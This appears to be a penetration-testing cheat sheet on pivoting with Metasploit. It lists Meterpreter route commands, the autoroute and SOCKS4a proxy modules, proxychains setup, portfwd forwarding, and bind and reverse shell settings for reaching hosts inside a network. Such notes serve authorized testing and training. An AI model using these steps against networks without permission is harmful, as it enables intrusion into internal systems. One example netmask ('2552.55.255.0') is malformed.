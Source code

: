 # ⭕ Metasploit Pivoting

## <mark style="color:red;">Manual Route</mark>

this method will give the full access to the target IP address like its siting in our LAN ( only accessible in metasploit )

```
background the session
route add 10.0.1.0/24 [session id]
```

## <mark style="color:red;">Auto Route Reverse Tunnel</mark>

Once the Meterpreter session is active, we’ll send it to the background and switch to the multi/manage/autoroute module. This will allow us to configure a reverse tunnel through the Meterpreter session and use that with a SOCKS proxy.

```
use multi/manage/autoroute
set session 1
exploit

use auxiliary/server/socks4a
set srvhost 127.0.0.1
exploit -j
```

The autoroute module creates a reverse tunnel and allows us to direct network traffic into the appropriate subnet.

We can use a local proxy application like Proxychains to force TCP traffic through a TOR or SOCKS proxy. We can configure it by adding the SOCKS4 proxy IP and port to the config file (`/etc/proxychains.conf`):

```
proxychains rdesktop 192.168.120.10
```

The route created by Meterpreter also allows us to access any other computer on that internal network.

## <mark style="color:red;">Port Forward</mark>

forward only the given remote port to the given local port specifically ( only accessible in msfconsole )

```
portfwd [add | delete | list | flush]  -L [optional local ip] -l [local port] -p [remote port] -r [remote ip]

portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now we can scan our local port 8000 to scan the remote port 80 of the target

## <mark style="color:red;">Pivote Bind Shell</mark>

usually used when exploiting a machine in the internal network. first we have to do port forwarding to scan the network

```
portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now add a route to target ip in the internal network

```
route -h
route add 10.0.1.5/24 [session number] 
```

now choose your exploit and set the rhost to the target ip in the internal network and run the exploit and remember:

```
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 2552.55.255.0 8)
use auxiliary/server/socks4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```

Another way:

```
background #meterpreter session
use post/windows/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks4a
run #Proxy port 1080 by default
```

{% hint style="warning" %}
#### Always use a bind shell when pivoting.
{% endhint %}

if we use a reverse shell the target machine on the internal network wont be able to route back the packets to us

![](<../../.gitbook/assets/image (267).png>)

## <mark style="color:red;">Pivot Reverse Shell</mark>

while using a reverse shell with pivoting we have to set the RHOST to target ip in the internal network and set the LHOST to the machine that we have already compromized

```
RHOST >>> internal target
LHOST >>> compromized machine
```

![](<../../.gitbook/assets/image (269).png>)
